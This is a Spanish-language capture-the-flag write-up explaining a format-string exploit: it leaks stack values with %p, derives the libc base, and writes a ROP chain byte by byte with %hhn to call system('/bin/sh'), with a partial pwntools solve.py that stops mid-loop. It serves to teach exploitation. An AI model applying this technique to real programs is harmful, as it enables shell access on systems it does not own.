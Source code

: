 ``` python3 
libc_base = u64(stack[60]) - 0x29D90
libc.address = libc_base
ret_addr = u64(stack[6]) - 0x120
```

La cadena %n nos permite escribir valores en la dirección de memoria que representa un valor en la pila, esta imprimirá el tamaño de nuestra entrada a esa dirección de memoria. Por ejemplo "AAAA%n" imprimirá el valor 4 en la dirección especificada por el valor en el offset 0. Otras variantes son %hn que escribe dos bytes y %hhn que escribe un byte; usaremos este ultimo ya que tenemos entradas infinitas.

Podemos usar esto sabiendo que en el offset 9 comienza nuestra entrada, pero por las restricciones necesitamos pasar un número, de 10 a 57 después de cada caracter '%'

La cadena %x muestra los 4 bytes mas significativos (recuerdese que esto es little-endian) del valor al que apunta la pila. Por ejemplo, si en el offset 6 se encuentra el valor '0x12345678' un %6$x imprimirá '5678'.

Juntando todo lo anterior usar %{offset_stack_1}${padding}x%{offset_stack_2}hhn nos permite imprimir un byte con el valor especificado en 'padding' en la dirección offset_stack_2.

Bien, ahora llevándolo a nuestro caso, para evitar que el valor almacenado no supere nunca el padding debemos escoger un offset_stack_1 que tenga sus 4 bytes más significativos en 0 (offset 57 servirá) y dado que nuestra entrada comienza en el offset 9(posicion 10 porque $ comienza con indice 1) y será un poco larga usaremos 24 bytes (3 offsets), por lo que la dirección a la que escribiremos se almacenará en offset 12(posicion 13).

+ Se ignorará el solicitar un padding para los bytes nulos puesto que no lo requieren
+ Se usará ljust para ajustar las cadenas de formato a direcciones de memoria completas

Solo queda hacer ROP, haremos una llamada a system("bin/sh"):

``` python
# solve.py
from pwn import *

exe = context.binary = ELF('./chall')
libc = exe.libc
io = process(exe.path)

# 1. Inspeccionar el stack
io.sendlineafter(b">> ",b"%10p"*90)  
stack = io.recvline(False)
stack = [
       p64(int(s,16))
       for s in stack.replace(b"(nil)",b"0x0").replace(b"0x",b" ").split()
]


# 2. Obtener libc base y direccion de retorno a la direccion anterior al valor de offset 0
libc_base = u64(stack[60]) - 0x29D90
libc.address = libc_base
ret_addr = u64(stack[6]) - 0x120


# 3. ROP
rop = ROP([exe,libc])
rop.raw(rop.ret.address)                            # Alinear el stack  
rop.call("system",[next(libc.search(b"/bin/sh"))])
chain = rop.chain()

for i in range(len(chain)):
    p = b""
    if chain[i] != 0:
        p += f"%57${chain[i]}x".encode()
    p += b"%13$hhn"
    p = p.ljust(24, b"_")                   
```